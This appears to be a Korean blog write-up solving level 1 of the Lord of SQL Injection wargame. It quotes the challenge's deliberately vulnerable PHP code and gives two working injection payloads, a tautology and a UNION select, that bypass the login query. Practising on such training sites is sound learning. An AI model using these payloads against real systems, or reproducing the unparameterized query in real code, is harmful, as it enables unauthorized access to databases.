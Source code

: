 ```yaml
---
title: Lord of SQL Injection Write Up No.1 Gremlin
date: 2019-08-12 11:24:33
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 [Lord of SQL Injection 1번 gremlin 문제](https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php)에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

기본적인 SQL Injection을 통해 SQL문을 조작할 수 있는지 확인한다.

### 필요 배경 지식

#### include

- php의 include에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: include - Manual](http://php.net/manual/kr/function.include.php)

#### preg_match

```php
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
```

- preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.
- 반환값은 매치된 횟수이며, 0 또는 1 이다. 이는 처음 매치 후 검색을 중지하기 때문이다.
- php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [PHP: preg_match - Manual](http://php.net/manual/kr/function.preg-match.php)

#### 정규 표현식 (Regular Expression)

- 정규 표현식은 특정한 규칙을 가진 문자열의 집합을 표현하는 데 사용하는 형식 언어이다.
- 정규 표현식에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [정규 표현식 - 위키백과](https://ko.wikipedia.org/wiki/%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)
  - [정규 표현식 테스트 사이트 RegExr](http://regexr.com/)

### 소스 코드 분석

gremlin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

#### Intro

```php
include "./config.php";
login_chk();
dbconnect();
```

- `config.php` 파일을 불러와 적용시킨다. `config.php` 내부에 `login_chk()`, `dbconnect()`, `solve()` 등 문제 풀이 환경과 관련된 함수가 선언되어 있을 것으로 추정할 수 있다.
- `login_chk()` 함수는 로그인 된 상태인지 확인하는 기능을 할 것으로 추정할 수 있다.
- `dbconnect()` 함수는 데이터베이스에 연결하는 기능을 할 것으로 추정할 수 있다.

#### Filter

```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET방식으로 `id`와 `pw`를 받으며, `id`나 `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
  - `preg_match('/prob|_|\.|\(\)/i', $_GET[id])` 는 `$_GET[id]`에서 정규표현식 `'/prob|_|\.|\(\)/i'` 을 매치한다.
  - 즉, `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");` 이 문장을 통해 `$_GET[id]`에 `prob`, `_`, `.`, `()` 중 하나라도 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
```

- 받은 `id`와 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. WHERE 조건절 무력화
   GET 방식으로 정보를 전송하기 위해 다음과 같이 URL의 맨 끝에 쿼리 스트링을 붙인다.

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
   ```

   ```sql
   select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
   ```

   이는 WHERE 조건절을 항상 참으로 만들어 `prob_gremlin` 테이블의 모든 행의 `id` 열을 불러오도록 하므로 문제가 풀린다.

2. UNION 구문 이용

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' union select 'a'-- -
   ```

   ```sql
   select id from prob_gremlin where id='' union select 'a'-- -' and pw=''
   ```

   이는 결국 `$result['id']`에 `'a'`가 들어가도록 하므로 문제가 풀린다.
